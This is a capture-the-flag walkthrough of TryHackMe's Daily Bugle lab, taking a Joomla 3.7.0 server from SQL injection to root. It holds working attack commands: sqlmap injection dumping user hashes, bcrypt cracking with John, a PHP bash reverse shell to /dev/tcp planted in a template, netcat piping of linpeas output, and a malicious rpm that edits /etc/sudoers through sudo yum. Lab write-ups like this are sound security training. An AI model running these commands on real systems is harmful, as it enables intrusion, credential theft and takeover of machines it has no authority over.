




# TryHackMe's Daily Bugle Room

<https://tryhackme.com/r/room/dailybugle>

## Introduction

The Daily Bugle room on TryHackMe offers a hands-on experience with a vulnerable Joomla-based web application, designed to help you develop your penetration testing and web exploitation skills. In this walkthrough, we'll cover the end-to-end process of discovering, exploiting, and escalating privileges within the target environment. Along the way, you'll encounter various real-world scenarios such as reconnaissance, SQL injection, password cracking, privilege escalation, and more.

## Reconnaissance

Start with some recon, run nmap with the built in 'vuln' script which scans the target for well known vulnerabilities.

```bash
nmap -sV --script=vuln -Pn 10.10.154.219
```

This scan reveal several useful informations.
There is a web server listening on port 80:

```bash
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
```

which has several interesting subdirectories:

```bash
| http-enum:
| /administrator/: Possible admin folder
| /administrator/index.php: Possible admin folder
| /robots.txt: Robots file
| /language/en-GB/en-GB.xml: Joomla!
| /htaccess.txt: Joomla!
| /README.txt: Interesting, a readme.
| /bin/: Potentially interesting folder
| /cache/: Potentially interesting folder
| /icons/: Potentially interesting folder w/ directory listing
| /images/: Potentially interesting folder
| /includes/: Potentially interesting folder
| /libraries/: Potentially interesting folder
| /modules/: Potentially interesting folder
| /templates/: Potentially interesting folder
|_ /tmp/: Potentially interesting folder
```

Also, among other things, there is some indication that the joomla version installed on the
server might have a known vulnerability:

```bash
| VULNERABLE:
| Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
| State: VULNERABLE
| IDs: CVE:CVE-2017-8917
| Risk factor: High CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
| An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
| to execute aribitrary SQL commands via unspecified vectors.
```

The scan indicates that Joomla version 3.7.0 is installed on the server.
You can confirm this by checking the _/language/en-GB/en-GB.xml_ file.

## Sql Injection

Further research the vulnerability at <https://www.exploit-db.com/exploits/42033>.
It is a sql injection vulnerability and you can use **sqlmap** to exploit it.
Running

```bash
sqlmap -u "http://10.10.154.219/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

you obtain the names of the databases available in the DBMS:

```bash
web server operating system: Linux CentOS
web application technology: Apache 2.4.6, PHP 5.6.40
back-end DBMS: MySQL >= 5.0
[17:39:02] [INFO] fetching database names
[17:39:03] [INFO] used SQL query returns 5 entries
[17:39:03] [INFO] retrieved: information_schema
[17:39:03] [INFO] retrieved: joomla
[17:39:03] [INFO] retrieved: mysql
[17:39:03] [INFO] retrieved: performance_schema
[17:39:03] [INFO] retrieved: test
```

**joomla** is the one that most likely would contain the users' informations.
Run

```bash
sqlmap -u "http://10.10.154.219/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --tables -D joomla
```

and you will obtain the tables of the **joomla** db:

```bash
Database: joomla
[72 tables]
+----------------------------+
| #__assets                  |
| #__associations            |
| #__banner_clients          |
| #__banner_tracks           |
| #__banners                 |
| #__categories              |
| #__contact_details         |
| #__content_frontpage       |
......
| #__updates                 |
| #__user_keys               |
| #__user_notes              |
| #__user_profiles           |
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+
```

Next dump the **users** table:

```bash
sqlmap -u "http://10.10.154.219/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dump -T "#__users" -D joomla
```

This will take a lot of time but you should be able to obtain the informations for the Jonah user, including the password hash:  
`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`.
By researching the format you can find out that is a **bcrypt** hash.

## Hash cracking

Now it's time to crack the hash! Create a _joomla.hash_ file containing the hash retrieved earlier.
For the task you can use **John the Ripper** which supports bcrypt hashes.

```bash
john --format=bcrypt joomla.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]     (?)
1g 0:00:16:58 DONE (2024-10-24 18:55) 0.000981g/s 45.98p/s 45.98c/s 45.98C/s sweet28..spaceship
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Get a shell

The credentials found in the previous step allow you to log in to the admin portal, which is located in the _/administrator_ subfolder found earlier in the nmap scan.
You can abuse this access to get a reverse shell on the target machine.  
Click on the **Templates** menu entry.



Access the first template.



Add the following line to the _index.php_ file, as shown in the image below.  
This is a one-line reverse php shell.

`exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_ATTACKBOX_IP>/1234 0>&1'");`



Listen for incoming connection on your attack machine:

```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
```

Press the "Save" button and then press the "Template Preview" button to run the code.  
You should get an empty preview and a connection on your attack box.



```bash
nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.154.219 52536 received!
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
```

## Privilege escalation

You are in, but you are stuck with the **apache** account and you can't do much with that.  
So, it's time to escalate those privileges.  
On your attack machine, start a http server to serve the _linpeas.sh_ script to the target.  
**LinPEAS** is a script that scans the system looking for possible privilege escalation vectors.

```bash
cd /opt/PEAS/linPEAS/
root@ip-10-10-153-35:/opt/PEAS/linPEAS# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Download the script on the target machine.

```bash
wget http://10.10.153.35:8000/linpeas.sh
--2024-10-25 11:04:07--  http://10.10.153.35:8000/linpeas.sh
Connecting to 10.10.153.35:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 233380 (228K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 21%  799K 0s
    50K .......... .......... .......... .......... .......... 43%  224M 0s
   100K .......... .......... .......... .......... .......... 65%  268M 0s
   150K .......... .......... .......... .......... .......... 87%  240M 0s
   200K .......... .......... .......                         100%  302M=0.06s

2024-10-25 11:04:07 (3.52 MB/s) - 'linpeas.sh' saved [233380/233380]
```

The shell you obtained on the target machine is functional but somewhat limited. Run the script on the target but send its output directly on your attack machine: this way it will be easier to read.  
You can do so using netcat, first on your attack machine listen for an incoming connection and redirect incoming traffic to a text file:

```bash
nc -l -p 12345 > linpeas_output.txt
```

On the target, run the script and pipe the output to the netcat command:

```bash
chmod +x linpeas.sh
./linpeas.sh | nc 10.10.153.35 12345
```

Take a look to the linpeas output.

```bash
less -r linpeas_output.txt
```

After a lot of scrolling you will find the following line:

```bash
[+] Searching passwords in config PHP files
     public $password = '[REDACTED]';
```

This password was found by the script in a config file related to the web application.  
Try to access other accounts on the target machine using this password, you will find that you can access the **jjameson** account.

```bash
su jjameson
Password: [REDACTED]
whoami
jjameson
```

Now you can retrieve the user flag.

```bash
cd /home/jjameson
ls
user.txt
cat user.txt
[REDACTED]
```

Let's see what can you do with the jjameson user.

```bash
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

This output tells you that jjameson is allowed to run **yum** with sudo privileges without having to enter the password, you can exploit this to get root privileges.  
First install **fpm**, a packaging tool.  
It requires Ruby installed on your system and the specific steps may vary based on your Ruby version.

```bash
gem install dotenv -v 2.8.1
gem install fpm
fpm --version
1.15.1
```

Create the malicious package running the following commands.

```bash
TF=$(mktemp -d)
root@ip-10-10-153-35:/tmp# echo '/bin/sh -c "echo \"jjameson ALL=(ALL) NOPASSWD:ALL\" | sudo tee -a /etc/sudoers"' > $TF/x.sh
root@ip-10-10-153-35:/tmp# fpm -n y -s dir -t rpm -a all --before-install $TF/x.sh $TF
Created package {:path=>"y-1.0-1.noarch.rpm"}
```

Let's break them down:

- The first line creates a temporary folder
- The second line creates a script that appends `jjameson ALL=(ALL) NOPASSWD:ALL` to the sudoers file, thus granting jjameson the right to execute any program with sudo rights without entering the password
- The third line creates a rpm package that contains the script created on line 2 and it will execute it immediately before the installation process

Start a http server and serve the rpm to the target

```bash
root@ip-10-10-153-35:/tmp# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Download the rpm on the target

```bash
wget http://10.10.153.35:8000/y-1.0-1.noarch.rpm
--2024-10-25 12:44:11--  http://10.10.153.35:8000/y-1.0-1.noarch.rpm
Connecting to 10.10.153.35:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6263 (6.1K) [application/x-redhat-package-manager]
Saving to: 'y-1.0-1.noarch.rpm'

     0K ......                                                100%  134M=0s

2024-10-25 12:44:11 (134 MB/s) - 'y-1.0-1.noarch.rpm' saved [6263/6263]
```

Install the rpm with yum, using sudo

```bash
sudo yum localinstall -y y-1.0-1.noarch.rpm
```

Right before the actual installation, the malicious script will run and, thanks to the sudo right, it will be able to alter the sudoers file.

Now, being able to run any program with sudo, it is quite easy to get root privileges.

```bash
whoami
jjameson
sudo /bin/bash
whoami
root
```

Now that you are root, retrieve the root flag:

```bash
cd /root
ls
anaconda-ks.cfg
root.txt
cat root.txt
[REDACTED]
```

That's it for this room, see you in the next one.  
Until next time, happy hacking!
